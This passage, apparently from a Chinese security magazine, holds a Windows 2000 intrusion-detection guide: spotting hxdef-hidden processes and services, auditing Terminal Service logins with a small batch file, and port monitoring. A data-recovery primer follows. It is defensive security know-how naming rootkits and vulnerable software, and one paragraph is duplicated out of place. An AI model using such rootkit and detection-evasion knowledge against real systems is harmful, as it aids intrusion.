sending IOCTL_KLISTER_INIT...
sending IOCTL_KLISTER_LISTPROC...
19 processes found:

8 System
220 services.exe
804 conime.exe
192 winlogon.exe
2196 NOTEPAD.EXE
2288 cmd.exe
632 svchost.exe
976 cmd.exe
1000 IEXPLORE.EXE
964 internat.exe
596 WinMgmt.exe
612 svchost.exe
1172 IEXPLORE.EXE
172 csrss.exe
1876 klister.exe
232 lsass.exe
140 smss.exe
420 netdde.exe
508 stisvc.exe
1276 hxde100.exe
```

但是，不是说隐藏了就没办法，我们继续用工具（哎，没办法，作为一名 tooluser，就这样），如果用 hxde100 把一些进程隐藏了的话，用 pulist.exe 以及 process.exe 是无法查看的。真的就发现不了了吗？当然不是，用 klister、RKDetectorv、knlps.exe（Kernel PS）或者 pm.exe（Process Magic）等软件都可以查看到隐藏的进程。然后和用 pulist.exe 的查看结果比较就可以发现哪些进程被隐藏了。它们的使用都很简单，打开压缩包，klister 先加载驱动，然后直接运行程序文件就可以。knlps 包括两个文件，knlps.sys 和 knlps.exe，使用方法如下：

```text
C:\klister\bin>klister
klister 0.3, Joanna Rutkowska, 2003

determining OS version... Windows 2000 Server [2195], SP4
opening device \\.\klister
using offsets:
* pKiDispatcherReadyListHead 0x804822e0
* pKiWaitInListHead_addr 0x80482258
* pKiWaitOutListHead_addr 0x80482808
sending IOCTL_KLISTER_INIT...
sending IOCTL_KLISTER_LISTPROC...
```

```text
C:\knlps_v0.4>knlps
Kernel PS v0.4
write by zzzEVAzzz
Usage: knlps -l|-k pid

C:\knlps_v0.4>knlps -l

PID  Name          Path
8    System
140  smss.exe      \SystemRoot\System32\smss.exe
172  csrss.exe     \??\C:\WINNT\system32\csrss.exe
192  winlogon.exe  \??\C:\WINNT\system32\winlogon.exe
220  services.exe  C:\WINNT\system32\services.exe
232  lsass.exe     C:\WINNT\system32\lsass.exe
420  netdde.exe    C:\WINNT\system32\netdde.exe
464  svchost.exe   C:\WINNT\system32\svchost.exe
508  stisvc.exe    C:\WINNT\system32\stisvc.exe
596  WinMgmt.exe   C:\WINNT\System32\WBEM\WinMgmt.exe
616  svchost.exe   C:\WINNT\system32\svchost.exe
952  Explorer.EXE  C:\WINNT\Explorer.EXE
848  internat.exe  C:\WINNT\system32\internat.exe
920  IEXPLORE.EXE  C:\Program Files\Internet Explorer\IEXPLORE.EXE
1440 cmd.exe       C:\WINNT\system32\cmd.exe
1472 conime.exe    C:\WINNT\system32\conime.exe
1504 knlps.exe     C:\knlps_v0.4\knlps.exe
```

- Network DDE
- Network DDE DSDM
- Plug and Play
- Protected Storage
- Remote Procedure Call (RPC)
- Removable Storage
- Security Accounts Manager
- Server
- System Event Notification
- TCP/IP NetBIOS Helper Service
- Windows Management Instrumentation
- Windows Management Instrumentation Driver Extensions
- Workstation

##### 4．基于服务的检测

Windows 2000 的大部分管理控制模块都是以服务的方式启动的。因此，作为一名优秀的管理员，首先必须熟悉系统运行的服务，要知道各个服务是干什么用的，哪些服务是系统正常运行所必须的，哪些服务可以不打开。对于一些比较危险的服务，如 Messenger、Telnet、Remote Registry Service 等服务应该禁用。

查看服务的方法，运行开始—程序—管理工具—服务，双击一个服务可以看到该服务的具体信息，包括服务名、服务显示名、服务的描述、可执行文件路径以及服务的状态。在这里可以对服务进行修改、配置。在命令行或者 Shell 下可以使用系统自带的命令 net start 来查看系统当前启动的服务。如：

在命令行下对服务进行启动、停止、查看等操作可以借用第三方工具，如 www.sysinternals.com 公司 Pstools 工具包里的 PsService.exe 或者非常出名的 sc.exe。使用方法如下：

```text
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\>net start
已经启动以下 Windows 2000 服务：

Automatic Updates
COM+ Event System
Computer Browser
DHCP Client
Distributed Link Tracking Client
Event Log
IPSEC Policy Agent
Logical Disk Manager
Network Connections
```

```text
C:\Pstools>psservice.exe -help

PsService v2.11 - local and remote services viewer/controller
Copyright (C) 2001-2003 Mark Russinovich
Sysinternals - www.sysinternals.com

PsService lists or controls services on a local or remote Win2K/NT system.

Usage: psservice.exe [\\Computer [-u Username [-p Password]]] <cmd> <opts>
Cmd is one of the following:
    query    Queries the status of a service
    config   Queries the configuration
    start    Starts a service
    stop     Stops a service
    restart  Stops and then restarts a service
    pause    Pauses a service
    cont     Continues a paused service
    depend   Enumerates the services that depend on the one specified
    find     Searches for an instance of a service on the network

C:\Pstools>psservice query messenger

PsService v2.11 - local and remote services viewer/controller
Copyright (C) 2001-2003 Mark Russinovich
Sysinternals - www.sysinternals.com
```

```text
SERVICE_NAME: Windows Internet Services
DISPLAY_NAME: Messenger
发送和接收系统管理员或者“警报器”服务传递的消息
TYPE               : 10
WIN32_OWN_PROCESS
STATE              : 1  STOPPED
                    (NOT_STOPPABLE,
NOT_PAUSABLE, IGNORES_SHUTDOWN)
WIN32_EXIT_CODE    : 0 (0x0)
SERVICE_EXIT_CODE  : 0 (0x0)
CHECKPOINT         : 0x0
WAIT_HINT          : 0x0

C:\all>sc query lanmanserver

SERVICE_NAME: lanmanserver
TYPE               : 20
WIN32_SHARE_PROCESS
STATE              : 4  RUNNING
                    (STOPPABLE,
PAUSABLE, ACCEPTS_SHUTDOWN)
WIN32_EXIT_CODE    : 0 (0x0)
SERVICE_EXIT_CODE  : 0 (0x0)
CHECKPOINT         : 0x0
WAIT_HINT          : 0x0
```

此方法的缺点是正常的服务被替换或者后门服务被隐藏，就很难发现。hxdef 隐藏的服务可以用远程控制软件 DRWCC（DameWare Mini Remote Control）连接后看到。还有一个好东西，就是 RKDetectorv，它可以检测出多个 Windows 系统下的 Rootkit 程序，机器安装上 hxdef 后运行 RKDetectorv，hxdef 马上现形。

下载地址：http://www.haxorcitos.com/ficheros/RKDetectorv0.61.zip

##### 5．终端服务的日志监控

终端服务的全名是 Terminal Service，单独将终端服务（Terminal Service）的日志监控分别出来是有原因的，微软 Win2000 服务器版中自带的终端服务 Terminal Service 是一个基于远程桌面协议（RDP）的工具，它的速度非常快，也很稳定，可以成为一个很好的远程管理软件。但是因为这个软件功能强大而且只受到密码的保护，所以也非常的危险，一旦入侵者拥有了管理员密码，就能够像本机一样操作远程服务器（不需要高深的 NT 命令行技巧，不需要编写特殊的脚本和程序，就如同在本机操作一样，实在是太方便，也实在是太可怕了）。虽然很多人都在使用终端服务来进行远程管理，但并不是人人都知道如何对终端服务进行审核，大多数的终端服务器上并没有打开终端登录的日志，我们建议打开日志审核。在控制面板—管理工具中打开远程控制服务配置（Terminal Service Configuration），点击“连接”，右击你想配置的 RDP 服务（比如“RDP-TCP(Microsoft RDP 5.0)”），选中书签“权限”，点击左下角的“高级”，看见上面那个“审核”了么？我们来加入一个 Everyone 组，这代表所有的用户，然后审核他的“连接”、“断开”、“注销”的成功和“登录”的成功和失败就足够了，审核太多了反而不好。这个审核是记录在安全日志中的，可以从“管理工具”→“日志查看器”中查看。记录了所有用户登录终端的名字和时间，可是美中不足的是：不会记录客户端的 IP（只能查看在线用户的 IP），所以需要写个 bat。由于时间仓促，我在网上找了这个 bat 文件，叫做 TSLog.bat，这个文件用来记录登录者的 IP，内容如下：

```text
time /t >>TSLog.log
netstat -n -p tcp | find ":3389" >>TSLog.log
start Explorer
```

我来解释一下这个文件的含义：第一行是记录用户登录的时间，time /t 的意思是直接返回系统时间（如果不加 /t，系统会等待你输入新的时间），然后我们用追加符号“>>”把这个时间记入 TSLog.log 作为日志的时间字段；第二行是记录用户的 IP 地址，netstat 是用来显示当前网络连接状况的命令，-n 表示显示 IP 和端口而不是域名、协议，-p tcp 是只显示 tcp 协议，然后我们用管道符号“|”把这个命令的结果输出给 find 命令，从输出结果中查找包含“:3389”的行（这就是我们要的客户的 IP 所在的行，如果你更改了终端服务的端口，这个数值也要作相应的更改），最后我们同样把这个结果重定向到日志文件 TSLog.log 中去，于是在 TSLog.log 文件中，记录格式如下：22:40

TCP 192.168.12.28:3389 192.168.10.123:4903 ESTABLISHED

22:54

TCP 192.168.12.28:3389 192.168.12.29:1039 ESTABLISHED

也就是说，只要这个 TSLog.bat 文件一运行，所有连在 3389 端口上的 IP 都会被记录，那么如何让这个批处理文件自动运行呢？我们知道，终端服务允许我们为用户自定义起始的程序，在终端服务配置中，我们覆盖用户的登录脚本设置并指定 TSLog.bat 为用户登录时需要打开的脚本。

例子：假设这个 bat 放在 `c:\winnt\system32\TSlog.bat`，我们打开管理工具——计算机管理——本地用户和组——右键点击（TsInternetuser）——属性——配置文件，下面的登录脚本就可以加上 `c:\winnt\system32\TSlog.bat`。这样每个用户登录后都必须执行这个脚本，因为默认的脚本（相当于 shell 环境）是 Explorer（资源管理器），所以我在 TSLog.bat 的最后一行加上了启动 Explorer 的命令 `start Explorer`，如果不加这一行命令，用户是没有办法进入桌面的！

当然，如果你只需要给用户特定的 Shell，例如 cmd.exe 或者 word.exe，你也可以把 `start Explorer` 替换成任意的 Shell。这个脚本也可以有其他的写法，作为系统管理员，你完全可以自由发挥你的想象力，自由利用自己的资源。例如写一个脚本把每个登录用户的 IP 发送到自己的信箱，对于重要的服务器也是一个很好的方法。正常情况下，一般的用户没有查看终端服务设置的权限，所以他不会知道你对登录进行了 IP 审核，只要把 TSLog.bat 文件和 TSLog.log 文件放在比较隐蔽的目录里就够了。不过需要注意的是，这只是一个简单的终端服务日志策略，并没有太多的安全保障措施和权限机制，如果服务器有更高的安全要求，那还是需要通过编程或购买入侵监测软件来完成的。

##### 6．基于端口的监控

进程、服务和端口都是相互对应的。一个服务启动，那么它的可执行文件就会生成一个进程；如果该服务是对外提供一定服务的话，那么也打开了一个端口。对于系统管理员来说，了解自己服务器上开放的端口甚至比对进程的监控更加重要，经常使用 netstat 命令查看服务器的端口状况是一个良好的习惯。就目前流行的大部分后门和木马来说，还都是使用 TCP 端口进行连接的，监控端口的状况，对于由于种种原因不能封锁端口的主机来说就是非常重要的了。

使用 `http://www.foundstone.com` 公司的 FPort v2.0 可以非常方便地查看到系统打开的端口，以及进程、端口类型、可执行文件路径。`http://www.ntutility.com` 公司的 Active Ports 和 `www.sysinternals.com` 公司的 TCPView 都是 GUI 方式下的端口管理工具，可以很方便地查看、关闭一些端口。这对于不习惯命令行界面下工作的人来说非常方便。

```text
C:\all>fport
FPort v2.0 -- TCP/IP Process to Port Mapper
Copyright 2000 by Foundstone, Inc.
http://www.foundstone.com

Pid   Process           Port   Proto   Path
464   svchost           -> 135 TCP     C:\WINNT\system32\svchost.exe
8     System            -> 445 TCP
464   svchost           -> 1140 TCP    C:\WINNT\system32\svchost.exe
1632  MyIE              -> 1358 TCP    C:\Program Files\MYIE2\MyIE.exe
1632  MyIE              -> 1359 TCP    C:\Program Files\MYIE2\MyIE.exe

8     System            -> 445 UDP
232   lsass             -> 500 UDP     C:\WINNT\system32\lsass.exe
952   Explorer          -> 1026 UDP    C:\WINNT\Explorer.EXE
1632  MyIE              -> 1213 UDP    C:\Program Files\MYIE2\MyIE.exe
528   QQ                -> 4000 UDP    D:\tencent\QQ.exe
```

使用系统自带命令 netstat 也可以很方便地查看本机打开的 TCP 和 UDP 端口，还可以看到哪些端口正在和外界进行连接和数据包交换。管理员只要看到一些奇怪的端口，就可以根据平时的经验马上断定系统是不是被人入侵并安装了后门。如下：



此方法的缺点，一个是入侵者修改木马的默认端口而改成其他平常的、不引人注目的端口；其次就是木马不打开端口，只是在连接时候才临时打开一个端口进行数据通信，完毕后立即关闭该端口；还有，木马或其他后门程序通信时候不使用 TCP 连接，而使用 ICMP 数据包进行数据交换；最后，端口被第三方工具隐藏。

互联网上提供的主要服务如 WWW、FTP、Telnet 以及 E-mail 服务，默认情况下都是固定的端口。其实例如 FTP、Telnet、SQL 以及终端连接等等都可以修改一下端口，有时可以取得意想不到的效果 ^^。

到这里主要对 WWW 服务的 80 端口进行检测。微软的 IIS 可以很方便地配置 WWW、FTP 服务，而且提供强大而且方便的日志查看功能。SecureIIS Web Server Protection 是微软 IIS 网站服务器专用的防护系统，能够监控分析所有进出的数据，并整合了最具特色的入侵检测系统、互联网防火墙，用来保护和对抗已知或未知的 IIS 攻击类型，是您的网页服务器最佳的防护工具。还可以用防火墙软件来分析外界和本机系统的连接请求，推荐的防火墙有以下几个：ZoneAlarm、BlackICE、KFW 个人版防火墙、天网 2.51 稳定版。

##### 7．工具和软件的升级

这点就不细说了。就拿我们平时用的操作系统来讲，Windows、UNIX、Linux 哪个没漏洞？而且有些漏洞对系统来说是致命的，一个命令就可以让系统崩溃，一个小小的溢出程序就可以获得系统的最高权限。微软的 WWW 服务器软件 IIS 漏洞一直没有停止过，还有 Apache，以及非常出名的远程管理软件 DameWare Mini Remote Control 出现重大远程缓冲区溢出漏洞，使用非常广泛的 FTP 服务器软件 FTP 服务端软件 Serv-U 的 SITE CHMOD 命令超长文件名远程溢出漏洞，只要符合条件，用一个小小的 exploit 就可以获得一个管理员权限的 Shell。怎么样，听起来是不是非常可怕？怎么办呢？那就是平时多去一些安全站点看看（例如黑防、安焦、灰色等），注意最新的安全公告，及时去软件厂商主页去下载补丁、软件升级包或者更新的版本。

> **结束语**

Windows 2000 Server 系统入侵检测的初步介绍就到这里。以上只是一些很基本很简单的方法，在实际运用中，需要的专业知识和技术水平远远不止这些。网络安全是一个整体，包括的东西很多，一个地方都不能疏忽大意。只要有一个漏洞被发现利用，那么整个系统将被摧毁。系统管理员对基础知识掌握的情况，直接关系到他的安全敏感度，只有身经百战而又知识丰富、仔细小心的系统管理员才能从一点点的蛛丝马迹中发现入侵者的影子，扼杀入侵的行动。ED


文 / cczb1

## 专业人士眼中的数据恢复

刘流，数据恢复这一行业渐渐地出现，并逐渐地被人重视。一个非常赚钱的行业也就顺理成章地出现了。在网络世界日益重要的今天，作为计算机取证技术的基础，数据恢复也迎来了快速的发展。作为国内外人士，我们大多数人都对数据恢复有个概念，希望在一些技术和存在误区方面，特别是我们请看下文与相关数据恢复业的朋友实行有所交会经验。

本文是一篇关于“数据恢复”的文章，我不想写成什么使用某某数据恢复软件的心得，也不想写术语连篇的堂皇之作——术语转来转去，没什么现实意义，这只是一篇关于“数据恢复”的普及文章，希望能让更多的人了解数据恢复。

在一般人眼里，数据恢复是在计算机领域比较神秘的学科。究其原因，数据恢复应用于日常生活相对较晚，而且需要比较专业的知识。另外，做数据恢复还有一定风险，所谓的风险是指可能出现潜在的事故发生，如加重数据破坏情况。一些对数据恢复只有一知半解的人们不经意操作，或者看似正常的操作，可能造成不可逆转的破坏。这些人包括一些想尝试做数据恢复的无经验者，也包括一些有名无实的数据恢复公司。

用 Google 搜索一下“数据恢复”，网上自称可以做数据恢复的公司不计其数，究其原因：

- 其一，数据恢复的利润很高。有一篇关于“数据恢复”的文章指出，从事数据恢复的专业人员月薪不久可以达到 5 万。在目前的国情下，个人 5 万／月是一个高回报行业，在高利润的驱使下，各层次的人纷纷介入，包括网络安全公司、杀毒软件公司、个体技术人员等。

- 其二，没有制定完善的规则政策，行业制度不健全，是目前数据恢复市场混乱的根本原因。以下是某数据恢复公司的数据恢复合同：“本公司已恢复数据或正在恢复数据，因客户某种原因不取数据或中途退出，本公司要向客户收取本项目的全部费用。客户可以提供要恢复数据的名称，但只作为参考，不作为有无数据凭证。恢复成功，客户应付全部费用。本公司只向客户提供已恢复的数据，拒绝向客户提供数据恢复方法。”仔细分析一下其中的条款，会发现很多问题——这些公司颇有些微软的味道。这种合同很具有代表性，在很多所谓的“数据恢复公司”中存在。

一个缺少规则的高回报游戏，有众多的参与者也不足为奇。数据恢复的价格比较混乱，只有一些很成熟的数据恢复公司，价格比较稳定，运作规则也很成熟。一些不正规公司的价格五花八门，甚至可以讨价还价。说了这么多开场白，下面进入正题。

是调用 Windows 的 convert 命令，所以网上争论 PQ 转换和 Windows 转换 NTFS 哪个更安全，就像争论诸葛亮和孔明哪个更厉害一样可笑。

问题虽看似很简单，但里边存在这么一个问题：当你要转换的 FAT32 分区里边包含中文文件名的时候，转换后文件夹名称可能变成乱码，不可以对文件夹访问和改名。造成这种后果的原因，是由于 FAT32 转换成 NTFS 时对中文字符支持存在问题，Windows 英语、法语、德语、西班牙语、意大利语和葡萄牙语等版本不受影响。

### 什么是数据恢复

数据恢复简单地来说，就是当存储于各种硬件介质中的数据丢失或者数据不可访问情况下，有效地再现数据信息的过程。数据存储介质范围很广，不单纯是我们印象中的硬盘，还包括各类存储介质：软盘、磁带机、MO、U 盘、记忆棒，以及各种闪存等。可以说，各种存储介质都在数据恢复的介质范围内。修复的手段包括软件修复、硬件修复，还有没有应用于民用的磁介质分析等。目前，硬盘还是最主要的存储介质，我这里就以硬盘做例子，说说硬盘的数据恢复。

#### 对普通用户来说，不可访问等同于数据丢失

这种问题，工作中会经常遇到。这种情况下的数据本身没有破坏。这个问题可以用一个简单的例子来说明原因：一本 100 万页的书（当然，现实没有这么厚的书）的目录丢失了，这种情况下，你想找书中某段特定信息会很困难，虽然该信息存在着。我们的不可访问文件夹就是这样，硬盘里我们所需要的数据还在。

为什么数据还在呢？这里需要补充一些知识（我只谈和数据恢复有关的）。以 FAT 文件系统为例，数据存到硬盘上，按顺序数据可分为 5 部分：MBR、DBR、FAT、FDP 和 DATA 区，其中只有 MBR 部分是由分区软件创建分区时建立的，其他四部分由格式化命令建立。

每本书都有序，序相当于硬盘里的主引导扇区。主引导扇区包括 MBR 和 DPT，MBR 即 Main Boot Record。书的序言的作用是介绍一些书的整体信息，吸引你读下去；MBR 的作用就是检查 DPT（分区表）是否正确以及确定哪个分区为引导分区，并在程序结束时把该分区的启动程序调入内存加以执行。不同 FAT 的主引导扇区占的扇区大小不一样，FAT16 只占一个扇区，FAT32 占 3 个扇区。我们可以用一些磁盘编辑软件手工编辑 MBR，MBR 是操作系统不可以直接访问和操作的。这是一个很聪明的方式，可以避免很多麻烦，但有的时候，由于人为更改、断电，或者病毒（如 polyboot）原因，主引导扇区会出现问题，如分区表丢失、MBR 参数异常、无 55AA 结束标志、逻辑锁等；关于修复引导扇区，可以手工修复，也可以利用一些软件，譬如 KV3000、DISKMAN、DISKEDIT 等，相关文章很多，这里不再啰嗦。

接着是操作系统引导扇区，它是操作系统可以直接访问的第一个扇区，其包括 DBR 和 BPB。DBR 也叫 OBR，即操作系统引导记录，它相当于书每章的导言，作用是把操作系统引导代码装入内存，加载操作系统。BPB 是一个分区参数记录表，记录本分区的起始扇区、结束扇区、文件存储格式、硬盘介质描述符、根目录大小、FAT 个数、分配单元的大小等参数。

注：补充一点知识，Windows 98 检测 BPB 参数不严格，一块在 98 下能启动的硬盘，但在 Windows 2000 下不能启动系统，大部分是由于这个原因。

操作系统引导扇区由高级格式化命令生成。FAT 位于 DBR 之后，一共有两个一样的 FAT，一个是基本 FAT，另一个是备份 FAT。当基本 FAT 出问题后，我们可以启用备份 FAT。一般来说，我们用一些专业的数据恢复软件，在扫描数据时一般喜欢用 FAT 副本作标准。

磁盘格式化后，操作系统读取文件不是按照扇区读取，而是把一个或者几个扇区定义为簇来读取，一个文件至少占用一个簇。当一个文件占用多个簇时，这些簇不一定是连续的，但这些簇的号码记录了存储数据时的顺序，这样就形成了“簇号链”。在磁盘上每一个簇在 FAT 表里都有一个记录项。一句话，FAT 指明文件的位置。通过对应簇号登记的数值，来反映该簇的状态：空闲还是使用，或者是损坏。FAT 对坏簇管理比较严格，只要该簇有一个扇区存在问题，该簇就标记为不可使用。

注：有的时候某些数据恢复公司所说的修复坏道引起的文件丢失，实质上是指数据所在的簇存在部分扇区破坏，数据本身可能根本没有损坏。

仅有文件位置还不能说明文件性质，这就引入了 FDP。FDP 的作用是记录文件名及扩展名、文件属性、文件建立日期、开始簇，以及文件大小。

一些数据恢复软件判定丢失的数据是否破损，参考的就是 FDP。在 FDP 之后，就是其真正意义上的数据区——DATA 区了。数据可恢复与否，看的就是 DATA 区。如果 MBR、DBR、FAT、FDP 任意一个位置出问题，数据都可能不能访问，但我们注意：数据真正是存在数据区，即 DATA 区。当硬盘创建数据时，会在 FDP 和 FAT 表中记录相应信息。FDP 保留我们通常通过资源管理器等工具能看到的文件信息，如文件名称、大小、类型等；它还保留了该文件在 FAT 表（File Allocation Table，文件分配表）中相应记录项的地址；而 FAT 表记录了该文件在磁盘上所占用的各个实际扇区的位置。

当我们从磁盘上删除一个文件时，该文件在 FDP 中的信息就被修改了，在 FAT 表中记录的该文件所占用的扇区也被标识为空闲，但其实这时候存在磁盘上的实际数据并未被真正清除。具体来说，文件删除时作如下修改：

- 1. 将该文件在磁盘的 FDP 的相应文件记录项的第一个字节（也就是文件名第一个字）改为“?”（对应 E5H）；
- 2. 将该文件所占用的 FAT 对应全部表项值置 0。只有当其他文件写入，有可能使用由该文件占用的扇区时（因为它们已被标识为空闲），该文件才会被真正覆盖掉。

弄懂了这些，恢复起来就容易了。

### 数据存储相关知识

我们再来了解一些数据存储的知识。数据在硬盘里是以文件形式存储的，目录可以看作一个特殊的文件。文件系统是指操作系统明确磁盘或分区上文件的方法和数据结构，即在磁盘上组织文件的方法。文件系统和操作系统密不可分：早期 DOS 对应 FAT12（目前软盘仍用该文件系统），后来又增添了 FAT16、FAT32、NTFS 等文件系统。UNIX/Linux 的早期文件系统有 minix、xia，后期出现 ext、ext2、ext3、jfs、xfs、ReiserFS 等文件系统。很多人在论坛里争论文件系统的好坏，总的来说，存在自有原因，但总体趋势是文件系统越来越先进，一种文件系统是否可以存活，需要时间的检验。比尔·盖茨是一个天才，FAT12 就是他的发明，FAT12 对于硬盘来说，是一个比较糟糕的文件系统。其实在专业人士眼里，什么样的文件系统对于数据恢复并不重要，记得一位从事数据恢复的前辈谈及文件系统曾经说过：“在我的眼里只有数据”，虽有些极端，但很有道理。目前做数据恢复，什么样的文件系统已经不是技术瓶颈，只是每种文件系统的恢复几率存在差别。

举个例子开始我们的数据恢复之旅：平时，FAT32 转换 NTFS 分区，很多人喜欢用 PQ，其实 PQ 也是调用 Windows 的 convert 命令，所以网上争论 PQ 转换和 Windows 转换 NTFS 哪个更安全，就像争论诸葛亮和孔明哪个更厉害一样可笑。

问题虽看似很简单，但里边存在这么一个问题：当你要转换的 FAT32 分区里边包含中文文件名的时候，转换后文件夹名称可能变成乱码，不可以对文件夹访问和改名。造成这种后果的原因，是由于 FAT32 转换成 NTFS 时对中文字符支持存在问题，Windows 英语、法语、德语、西班牙语、意大利语和葡萄牙语等版本不受影响。

#### 数据为什么会丢失

再来具体分析一下造成数据丢失的原因。数据丢失总体上来说分为两种情况：软故障和硬故障。

所说的软故障包括误操作引起的丢失，如误删除文件、误分区、用 GHOST 错误恢复分区等等，也包括病毒破坏（如 CIH 破坏的数据，Parite.b 引起的 exe、scr 文件破损，WXY 引起的分区丢失），同时也还包括我们上面说的硬盘数据结构中出了 DATA 区以外其他部分（MBR、BPB、DBR、DPT、FAT、FDP）的问题。换句话说，存储介质没有问题，文件系统或者其他问题都可以归结为软故障。一般来说，软故障修复的几率还是比较大的，尤其是 DATA 区没有写入性操作，基本都可以恢复。遵循“哪里丢失，哪里找回”的原则。

至于硬件引起的数据丢失就比较复杂了，可以分为实质性硬件损坏故障和隐含性硬件故障。所谓的实质性硬件损坏包括硬盘电路板损坏，硬盘盘腔部件损坏，如磁头、控制电路损坏、马达、盘片（磁介质不稳定和表面破损）等部件损坏。所谓的隐含性硬件故障是指：并非硬盘部件物理损坏，如硬盘电路板接触不良。这个问题很典型，有些硬盘在开机自检显示容量错误和序号出现乱码就是这个原因。

基本上，隐含性硬件故障的硬盘的数据本身没有任何问题。很多数据恢复公司混淆了开盘和隐含性硬件故障的界限。两者在数据恢复费用差价上非常惊人。开盘之所以费用高，因为开盘需要其他条件支撑，如相关技术部门包括电路工程、机械工程、系统工程等部门，恢复数据作业还需要核心设备清净室，所以费用很高。总的来说，国内开盘成功几率比较低，尤其是盘面破损很严重的，几乎就不能恢复。

#### 数据丢失后要注意的问题

当我们的数据丢了，我们该怎么办？很多文章说，用某某软件，或者怎么手工修复。

**注：** DIY 精神无可厚非，但前提是你必须可以对你的操作负得起责任，对数据丢失的原因充分了解，且对相关知识比较了解。

我不想指责某些作者的善意指导，但这里有几个很严重的问题。

首先，数据恢复有个必须遵守的原则：不对源介质进行写入性操作。

前面我们说过，目前数据的恢复水平，覆盖的数据很难恢复（现在很多人在炒作“深层信号还原和磁介质分析”技术，但现在这个技术对国内没什么实质意义）。

数据怎么才能被覆盖？回顾一下前边的知识，数据真正存储在 DATA 区，删除或者其他原因，只是把 FAT 的各相关位置置 0（也就是表明该簇没有被使用），再把 FDP 做一个标识。所以，安装任何软件都是很危险的。如果你安装的数据恢复软件的位置恰好是你要恢复的 DATA 区，后果就严重了。

希望以后介绍数据恢复软件修复的文章的作者，都可以在介绍经验之前，提醒读者：恢复软件不要装在你要恢复的硬盘里，以免买椟还珠。

其次，当造成数据丢失的原因是由于硬件原因时，软件修复就更危险。目前的数据恢复软件有个特点，就是容错性很好。有兴趣的朋友可以试一下，找一个破损相当严重的硬盘（严重程度可以达到：基本操作系统都不能检到的硬盘），你运行一下数据恢复软件，譬如 EasyRecovery，你会发现，数据恢复软件可以正常显示该硬盘的信息，甚至分区结构。你再试着恢复数据，硬盘会发出刺耳的噪音，恢复软件试图逐扇区读取数据。

试想一下，当由于磁头或盘片造成数据丢失的问题，你想通过软件修复，后果会怎么样？目前主流硬盘都是 7200 转／分，划伤盘片的机会有多大！

当遇到数据丢失的时候，分析一下具体情况：如果自己对丢失的原因很了解，自己自信可以解决问题，而不会制造更多的问题，勇敢地动手去做；当自己不是对实际情况很了解，没有十分大的把握，而且丢失的数据不是单纯用钱可以计量的，最好留给专业从事数据恢复的公司去做。

特别提醒：一些刚刚走入工作岗位、想要做出点成绩的从事计算机业的朋友，单位的数据和自己的不一样，一旦出了问题，不是单纯丢了工作可以解决的。

有句话说得好：“淹死会水的。”我工作中时常遇到数据恢复中由于误操作引起的数据丢失，其中不少都是一些对计算机操作有一定了解的企业计算机操作人员。

无论你是新手还是老鸟，对数据操作一定要谨慎，等数据丢失后，冷静考虑一下以下问题：

- 1. 数据丢失的原因自己是否可以判断，是由于误操作还是由于硬故障问题？自己尝试修复是否会造成更大损失，自己修复的把握有多大？

- 2. 丢失的数据的重要程度如何，以前是否有备份？是否可以从其他途径找到丢失的数据？
- 3. 在数据没有找回来之前，对目前的工作进度有多大的影响，会造成潜在多大的经济损失？

#### 考虑清楚这些问题，解决方法就出来了

- 1. 当分析结果是确定自己可以动手修复，那就大胆去做，但我不是非常推荐手工修复，毕竟人为操作出错几率大，目前软件相应功能高度集成，可以用一些恢复软件，网上到处都是。我这里也不多啰嗦。
- 2. 当遇到自己没法解决，且数据十分重要，或者操作存在潜在危险，个人操作会进一步加大数据破坏程度的情况，就去找专门的公司。这里也有几项注意的，首先必须找正规公司做（有国家相应机关签发的资格证书的公司）。做恢复前，看清楚合同的条款。其次当遇到硬故障，需要开盘，本地没有条件修复的，在邮寄过程中，一定做好保护工作，避免邮递中的进一步破坏。

#### 数据恢复的成功率

很多人都想问数据恢复公司的数据恢复成功率问题。最近我做了一项调查，通过朋友们的帮忙，结合自己的经历，调查了各个省市的数据恢复相关部门，得到了一些数据。由于涉及行业秘密，公司名称就不公布；有记录的数据恢复业务记录，一共有 31819 项硬盘和其他介质记录（调查中，一家公司声称该公司自 1990 年起记录有 10 万块硬盘，却没提供相关具体信息，为准确起见，不在这 31819 项记录范围内），成功案例 25232 例；数据恢复的成功几率大概在 79.3% 左右。总的来说，目前修复水平还不是很高。

